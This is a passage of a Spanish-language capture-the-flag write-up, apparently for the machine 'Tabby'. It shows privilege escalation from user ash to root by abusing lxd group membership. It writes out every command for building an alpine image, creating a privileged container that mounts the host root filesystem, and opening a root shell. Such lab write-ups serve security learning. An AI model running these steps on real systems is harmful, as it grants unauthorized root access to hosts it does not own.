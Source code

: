 Estamos dentro como el usuario **ash** :P Tenemos el flag del user.

...

## Escalada de privilegios {#escalada-de-privilegios}

Inspeccionemos O.O

Enumerando los grupos en los que esta **ash** vemos que está en el grupo **lxd**. 

```bash
ash@tabby:/dev/shm$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

De una recorde un video de [s4vitar](https://www.youtube.com/watch?v=DJydodFguU4) en el que explota este grupo... De igual forma dejo unos artículos que también explican como aprovecharse del grupo para obtener una Shell como usuario administrador.

* [Hacking Articles](https://www.hackingarticles.in/lxd-privilege-escalation/).
* [Ethical Hacking Guru](https://ethicalhackingguru.com/the-lxd-privilege-escalation-tutorial-how-to-exploit-lxd/).
* [S4vitar](https://www.youtube.com/watch?v=DJydodFguU4).

Lo primero que debemos hacer es descargar y ejecutar en nuestra máquina atacante una imagen de un contenedor, en este caso usaremos **alpine**.

```bash
─╼ $ wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
─╼ $ chmod +x build-alpine
─╼ # ./build-alpine
...
─╼ # ls
alpine-v3.12-x86_64-20201007_0822.tar.gz  build-alpine
```

Nos generará la imagen y ese es el que moveremos a la máquina victima. Estando en la máquina victima haremos esto:

```bash
# Creamos el contenedor 
ash@tabby:/dev/shm$ lxc image import alpine-v3.12-x86_64-20201007_0822.tar.gz --alias alpina
ash@tabby:/dev/shm$ lxd init --auto
# Desplegamos el contenedor
ash@tabby:/dev/shm$ lxc init alpina privesc -c security.privileged=true
Creating privesc
# Le indicamos que nos haga una montura de todo el directorio raiz en la ruta `/mnt/root` 
ash@tabby:/dev/shm$ lxc config device add privesc container disk source=/ path=/mnt/root recursive=true
Device container added to privesc
# Iniciamos el contenedor
ash@tabby:/dev/shm$ lxc start privesc
# Le indicamos que nos ejecute una shell con `sh`
ash@tabby:/dev/shm$ lxc exec privesc sh
~ # whoami
root
~ # cd /mnt/root
/mnt/root # ls
bin         home        lost+found  root        swap.img
boot        lib         media       run         sys
cdrom       lib32       mnt         sbin        tmp
dev         lib64       opt         snap        usr
etc         libx32      proc        srv         var
/mnt/root #
```
